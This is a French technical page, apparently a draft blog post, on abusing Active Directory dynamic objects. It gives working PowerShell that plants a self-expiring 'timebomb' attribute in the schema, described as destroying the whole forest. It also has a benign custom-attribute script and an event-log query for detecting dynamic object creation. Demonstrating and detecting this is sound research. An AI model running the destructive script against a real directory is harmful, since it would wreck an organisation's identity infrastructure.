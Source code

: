 ```yaml
---
title: "Comment détruire votre Active Directory"
description: "Votre forêt s'auto-détruira dans 3, 2, 1..."
tags: active-directory
listed: true
---
```


Création d'un objet temporaire dans le schéma Active Directory

[PowerShell Gallery \| scripts/New-ADSchemaTestOID.ps1 0.0.3](https://www.powershellgallery.com/packages/ADSchema/0.0.3/Content/scripts%5CNew-ADSchemaTestOID.ps1)

[PowerShell Gallery \| scripts/New-ADSchemaAttribute.ps1 0.0.1](https://www.powershellgallery.com/packages/ADSchema/0.0.1/Content/scripts%5CNew-ADSchemaAttribute.ps1)


## Comportement d'un objet dynamique

### Création d'un objet statique dans un objet dynamique

Lorsque vous 

Aucun problème en revanche pour créer un objet dynamique dans un autre objet dynamique

"Windows cannot create the object testGroup because: The server is unwilling to process the request"

## Détruire votre domaine Active Directory

### Création d'un objet temporaire dans le schéma

Basé sur l'article : [Create and manage custom AD attributes with PowerShell – 4sysops](https://4sysops.com/archives/create-and-manage-custom-ad-attributes-with-powershell/#rtoc-4)

#### Génération d'un OID

```powershell
function New-Oid {
    param([string]$Prefix = '1.2.840.113556.1.8000.2554')

    $guid = [string]([System.Guid]::NewGuid())
    $oid = 0, 4, 9, 14, 19, 24, 30 | ForEach-Object {
        if ($_ -ge 24) { $l = 6 } else { $l = 4 }
        [UInt64]::Parse($guid.SubString($_, $l), 'AllowHexSpecifier')
    }
    $prefix + ($oid -join '.')
}
```

#### Ajout d'un nouvel attribut

```powershell
# Création de l'attribut en dehors de la partition Schéma
$dynamicObject = ([ADSI]("LDAP://CN=Users,DC=contoso,DC=com")).Create('attributeSchema', 'CN=timebomb')
$dynamicObject.PutEx(2, 'objectClass', @('dynamicObject', 'attributeSchema'))
$dynamicObject.Put('entryTTL', 900)
$dynamicObject.Put('lDAPDisplayName', 'timebomb')
$dynamicObject.Put('adminDescription', 'This attribute will blow up the entire Active Directory forest in 15 minutes')
$dynamicObject.Put('attributeId', (New-Oid))
$dynamicObject.Put('oMSyntax', 1)
$dynamicObject.Put('attributeSyntax', '2.5.5.8')
$dynamicObject.Put('searchflags', 0)
$dynamicObject.Put('systemFlags', 536870912)
$dynamicObject.SetInfo()
```

```powershell
# Déplacement de l'objet dans la partition schéma
Move-ADObject -Identity 'CN=timebomb,CN=Users,DC=contoso,DC=com' -TargetPath (Get-ADRootDSE).schemaNamingContext
```





function Get-ADSyntaxType {
    param([ValidateSet('Boolean', 'Enumeration', 'Integer', 'LargeInteger', 'Object(DN-String)', 'String(Unicode)', 'String(UTC-Time)')][string]$Type)

    switch ($Type) {
        'Boolean'           { $omSyntax = 1   ; $attrSyntax = '2.5.5.8' }
        'Enumeration'       { $omSyntax = 10  ; $attrSyntax = '2.5.5.9' }
        'Integer'           { $omSyntax = 2   ; $attrSyntax = '2.5.5.9' }
        'LargeInteger'      { $omSyntax = 65  ; $attrSyntax = '2.5.5.16' }
        'Object(DN-String)' { $omSyntax = 127 ; $attrSyntax = '2.5.5.14' }
        'String(Unicode)'   { $omSyntax = 64  ; $attrSyntax = '2.5.5.12' }
        'String(UTC-Time)'  { $omSyntax = 23  ; $attrSyntax = '2.5.5.11' }
    }

    [PSCustomObject]@{
        oMSyntax = $omSyntax
        attributeSyntax = $attrSyntax
    }
}

# get AD schema path
$adSchema = (Get-ADRootDSE).schemaNamingContext
 
# get user schema
$userSchema = Get-ADObject -SearchBase $adSchema -Filter "Name -eq 'User'"
# set the short name for custom attribute with no spaces
$attributeName = "CampusName"
# set the short description for custom attribute
$attributeDesc = "Campus Name"
# paste the OID generated by "Generate-OID.ps1" script
$OID = "1.2.840.113556.1.8000.2554.56779.46056.47028.16885.40810.7627542.10407433"
# oMSyntax is "64" for String (Unicode). Refer this link for other types: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/7cda533e-d7a4-4aec-a517-91d02ff4a1aa
$oMSyntax = 64
# attributeSyntax is "2.5.5.12" for String (Unicode). Refer this link for other types: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/7cda533e-d7a4-4aec-a517-91d02ff4a1aa
$attributeSyntax = "2.5.5.12"
# set the indexable value to "1" if you want AD to index this attribute. set this only if you would be querying this AD attribute a lot.
$indexable = 0
# build custom attributes hashtable
$adAttributes = @{
  lDAPDisplayName = $attributeName;
  adminDescription = $attributeDesc;
  attributeId = $OID;
  oMSyntax = $oMSyntax;
  attributeSyntax = $attributeSyntax;
  searchflags = $indexable
}
# create the custom attribute in AD schema
New-ADObject -Name  $attributeName -Type attributeSchema -Path $adSchema -OtherAttributes $adAttributes
 
# add the custom attribute to user class
$userSchema | Set-ADObject -Add @{mayContain = $attributeName}
```

## Détection de la création d'objet dynamique


```powershell
$filterXPath = "Event[System[EventID=5136]] and *[EventData[Data[@Name='AttributeValue']='1.3.6.1.4.1.1466.101.119.2']]"
Get-WinEvent -ProviderName Microsoft-Windows-Security-Auditing -FilterXPath $filterXPath
```

[AD Object Detection: Detecting the undetectable (dynamicObject) \| Microsoft Learn](https://learn.microsoft.com/en-us/archive/blogs/pfesweplat/ad-object-detection-detecting-the-undetectable-dynamicobject)
